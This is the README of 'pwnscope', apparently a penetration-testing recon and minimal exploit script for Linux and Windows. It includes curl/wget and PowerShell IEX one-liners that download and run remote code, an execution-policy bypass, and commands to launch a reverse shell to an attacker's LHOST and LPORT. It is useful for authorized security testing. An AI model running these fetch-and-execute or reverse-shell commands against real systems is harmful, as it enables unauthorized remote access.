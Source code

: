 # pwnscope

![grafik](https://github.com/user-attachments/assets/67b4e00f-d4b8-4dfa-8473-2268a8c9d73f)



**pwnscope** is a lightweight Linux and Windows reconnaissance and minimal exploit toolkit script designed to help security professionals quickly gather system information and perform basic exploitation.
It's designed to run smarter and faster than other recon scripts yet. So just give it a try!

---

## Features

* Quick system overview (`--short`)
* Full enumeration including sudo privileges, SUID files, capabilities, cron jobs, network info, and Docker check (`--full`)
* Minimal reverse shell exploit via bash/sh (`--exploit`) requiring `LHOST` and `LPORT` environment variables
* Windows: `$env:LHOST` and `$env:LPORT`.

---

## Requirements

### Linux OS
* Bash or compatible shell (works with `/bin/bash`, `/bin/sh`, `ash`, etc.)
* Linux environment
* `sudo` privileges for some extended checks (optional)
* Basic utilities like `find`, `ps`, `ss`, `ip`, `free`, `df`, `getcap`

### Windows OS
* Admin rights (Optional)
* Powershell exec bypass (`Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass`)

---

## Usage Linux

### Quickstart

```bash
# curl , bash
bash -c "$(curl -fsSL https://raw.githubusercontent.com/suuhm/pwnscope/refs/heads/main/pwnscope.sh) --short"

# wget , sh
sh -c "$(wget -qO- https://raw.githubusercontent.com/suuhm/pwnscope/refs/heads/main/pwnscope.sh) --short"
```

### Ultimative oneliner

```bash
URL="https://raw.githubusercontent.com/suuhm/pwnscope/refs/heads/main/pwnscope.sh"; \
run_cmd() { \
  [ $1 = "sh" ] && sh -c "$(wget -qO- $URL) --short"; \
  [ $1 = "bash" ] && bash -c "$(wget -qO- $URL) --short"; \
  [ $1 = "curl" ] && curl -fsSL $URL | sh -c "$(cat) --short"; \
  [ $1 = "wget" ] && wget -qO- $URL | sh -c "$(cat) --short"; \
}; \
for cmd in sh bash curl wget; do \
  command -v $cmd >/dev/null 2>&1 && echo "$cmd is installed" && run_cmd $cmd || echo "$cmd is not installed"; \
done

```

```bash
# Display help and usage
./pwnscope.sh

# Quick system info
./pwnscope.sh --short

# Full system enumeration
./pwnscope.sh --full

# Minimal reverse shell exploit
LHOST=10.10.10.4 LPORT=4444 ./pwnscope.sh --exploit
```

## Usage Windows (Powershell)

### Quickstart

```powershell
powershell -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/suuhm/pwnscope/refs/heads/main/pwnscope-win.ps1'); & ./pwnscope.ps1 --short"
```

```powershell
# For bypass Set-ExecutionPolicy:
powershell -ExecutionPolicy Bypass -File .\pwnscope.ps1 --short

# Full:
.\pwnscope.ps1 --full

# For using exploiting and Reverse Shell:
$env:LHOST = "10.10.14.5"
$env:LPORT = "4444"
.\pwnscope.ps1 --exploit
```

---

## Example Output

### Quick overview:

```
[*] Quick System Overview
Hostname: vulnserver
User: root
Kernel: 5.15.0-73-generic
Uptime: up 3 hours, 25 minutes
CPU Info: Intel(R) Xeon(R) CPU E5-2673 v4 @ 2.30GHz
Memory Usage:
              total        used        free      shared  buff/cache   available
Mem:           3.7G        1.1G        1.5G         54M        1.1G        2.3G
Swap:          0B          0B          0B
Disk Usage (root):
/dev/sda1        50G        15G        33G   31% /
Top 5 processes by memory:
root       1234  4.2  3.1  987654 123456 ?    Sl   10:00   0:05 java
...
Open ports:
LISTEN   0      128         0.0.0.0:22          0.0.0.0:*  
LISTEN   0      128         127.0.0.1:5432      0.0.0.0:*  
...
```

---

## License

Apache 2.0 License — see the [LICENSE](LICENSE) file for details.

---

## Disclaimer

This tool is intended for authorized penetration testing and security assessments only. Use responsibly and legally.
